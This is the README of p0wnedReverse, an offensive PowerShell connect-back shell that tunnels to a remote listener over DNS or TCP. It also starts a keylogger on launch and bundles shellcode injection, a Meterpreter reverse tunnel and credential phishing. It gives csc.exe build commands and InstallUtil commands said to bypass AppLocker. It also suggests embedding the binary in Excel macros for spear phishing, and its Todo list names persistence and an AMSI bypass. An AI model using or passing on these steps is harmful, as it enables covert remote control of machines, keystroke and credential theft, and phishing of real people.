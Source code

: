 # p0wnedReverse
PowerShell Runspace Connect-Back Shell

### Author: Cn33liz and Skons

License: BSD 3-Clause

### What is it:

p0wnedReverse is based on the same code as [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) and can be used as an Connect-Back (Power)Shell.
Communication channels are made using Besimorhino's PowerCat code and you can choose between DNS TXT or TCP communication channels.
When the code is run it also starts an C# Keylogger that logs all keystrokes to "$env:Temp\KeyLog-*". You can use the Get-Keystrokes command within the shell to display all logged keystrokes.   
For a DNS tunnel you need to run a remote [DNSCat2 Listener](https://github.com/iagox86/dnscat2) and for TCP communication you can use [p0wnedShell](https://github.com/Cn33liz/p0wnedShell) to setup a Powercat Listener.


### How to Compile it:

When you need to setup a DNS tunnel, then comment/uncomment LHost, LPort and Domain variable and change PowerCat settings.
For TCP communication make sure you change the LHost and LPort variable to suit your needs (e.g. Listener IP/Port).

To compile p0wnedReverse you need to import this project within Microsoft Visual Studio or if you don't have access to a Visual Studio installation, you can compile it as follows:

To Compile as x86 binary:

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReverseX86.exe /platform:x86 "C:\p0wnedReverse\*.cs"
```

To Compile as x64 binary:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319

csc.exe /unsafe /reference:"C:\p0wnedReverse\System.Management.Automation.dll" /reference:System.IO.Compression.dll /out:C:\p0wnedReverse\p0wnedReverseX64.exe /platform:x64 "C:\p0wnedReverse\*.cs"
```

p0wnedReverse uses the System.Management.Automation namespace, so make sure you have the System.Management.Automation.dll within your source path when compiling outside of Visual Studio.

### How to use it:

Setup your DNSCat2 or Powercat TCP listener and run the executable or...

To run as x86 binary and bypass Applocker (Credits for this great bypass go to Casey Smith aka subTee):

```
cd \Windows\Microsoft.NET\Framework\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReverseX86.exe
```

To run as x64 binary and bypass Applocker:

```
cd \Windows\Microsoft.NET\Framework64\v4.0.30319 (Or newer .NET version folder)

InstallUtil.exe /logfile= /LogToConsole=false /U C:\p0wnedReverse\p0wnedReverseX64.exe
```

You could also use p0wnedReverse as a Payload for Spear Phishing Campaigns by embedding it into Excel Macro's e.g.

### What's inside the runspace:

#### The following PowerShell tools/functions are included:

* PowerSploit Invoke-Shellcode
* Besimorhino's PowerCat
* Nishang Invoke-CredentialsPhish
* Cn33liz Get-KeyStrokes (simple function that reads keystrokes from KeyLogger file)
* Cn33liz Invoke-Meterpreter (wrapper function around Invoke-Shellcode that needs an IP and Port argument to setup an reversed https meterpreter tunnel. Please note that this function only works with the x86 version of p0wnedReverse)

Powershell functions within the Runspace are loaded in memory from
[Base64 encode strings](https://github.com/Cn33liz/p0wnedShell/blob/master/Utilities/PS1ToBase64.ps1).

### Todo:

* Create a Windows Forms Application that automaticly generates binaries with custom PowerShell functions and VBScript macros for Spear Phishing Campaigns.
* Built-in persistency.
* Need to figure out how to bypass the new Anti-Malware Scan Interface (AMSI) in Windows10/Powershell 5 

### Contact:

To report an issue or request a feature, feel free to contact me at:
Cornelis ```at``` dePlaa.com or [@Cn33lis](https://twitter.com/Cneelis)
